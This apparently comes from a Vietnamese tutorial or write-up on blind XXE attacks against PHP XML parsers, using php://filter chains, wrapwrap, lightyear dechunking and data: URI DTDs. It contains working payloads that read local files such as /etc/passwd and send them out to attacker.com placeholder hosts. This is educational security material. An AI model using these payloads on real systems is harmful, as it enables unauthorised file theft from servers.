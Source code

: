 → `%exfiltrate;` gửi request ra ngoài với `?x=somedata`
→ Thành công 

2. 💡 Dùng file local có nội dung hợp lệ:
```xml
<!ENTITY % file SYSTEM "file:///tmp/some.txt">
<!ENTITY % data %file;>
<!ENTITY % payload '<!ENTITY &#37; exf SYSTEM "http://attacker.com/?x=%data;">'>
%payload;
%exf;
```
→ File `/tmp/some.txt` phải chứa: `"It+works!"`
→ Vì parser chỉ xử lý nếu nội dung:
- Được bao trong dấu `"` hoặc `'`
- Không chứa ký tự cấm như `&`, `\0`, v.v.

### BRO PHP filters chain
Đến bước này rồi,để leak được data ra ta chỉ cần:
1. Loại bỏ các ký tự không hợp lệ : Convert nội dung sang `base64`
2. Thêm dấu `"` vào đầu và cuối nội dung file : Giải quyết dễ dàng bằng wrapper `php://filter:`

Payload hoàn thiện:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/A-LOT-OF-WRAPWRAP-FILTERS/resource=/tmp/secret.txt">
<!ENTITY % data %file;>
<!ENTITY % payload '<!ENTITY &#37; exf SYSTEM "http://attacker.com/?x=%data;">'>
%payload;
%exf;
```
Chú ý: `A-LOT-OF-WRAPWRAP-FILTERS` là lặp lại nhiều lần  filter `convert.base64-encode` (~ 20 lần)

### lightyear chunks
Nhưng có một vấn đề: vì wrapwrap phải dùng rất nhiều filter, nên file càng lớn thì payload cũng càng to.Thậm chí có thể lên đến hàng chục KB chỉ để đọc vài dòng dữ liệu.

Khi parser đọc `SYSTEM` "uri", nó sẽ check độ dài.
Nếu không bật `XML_PARSE_HUGE`, thì giới hạn độ dài URL chỉ là 50 KB.

Với `lightyear dechunk`, ta có thể chia nhỏ file thành nhiều phần, mỗi chunk đọc từng tí.

Payload cực nhỏ, không cần wrapwrap dài → file lớn vẫn exfil được!

![](http://note.bksec.vn/pad/uploads/3e4fd0bc-f62d-46b7-b1a1-8ab72b7a5b52.png)

### Làm gì khi server bị chặn kết nối TCP ra ngoài
Trong một số trường hợp, server chặn toàn bộ kết nối TCP outbound
→ khiến ta không thể tải DTD từ server tấn công. → XXE thông thường fail hoàn toàn

Giải pháp:

Dùng data: URI (tự nhúng nội dung vào chính XML) thay vì tải file từ xa
→ Dữ liệu rò rỉ ra ngoài qua DNS subdomain (ví dụ: `data-leak.attacker.com`)

Protocol `data:`
PHP hỗ trợ wrapper `data:` → cho phép ta nhúng nội dung DTD ngay trong XML, không cần truy cập ra ngoài:
```xml
<!DOCTYPE x SYSTEM 'data:,<!ENTITY % file SYSTEM "php://filter/.../resource=/etc/passwd">
<!ENTITY % data %file;>
<!ENTITY % exf SYSTEM "http://web-attacker.com/?x=%data;">'>
```
→ Đây là cách nhét toàn bộ DTD payload vào chính XML, không cần tải từ server
Nhưng vì có quá nhiều filter, payload rất dài → khó inject qua GET
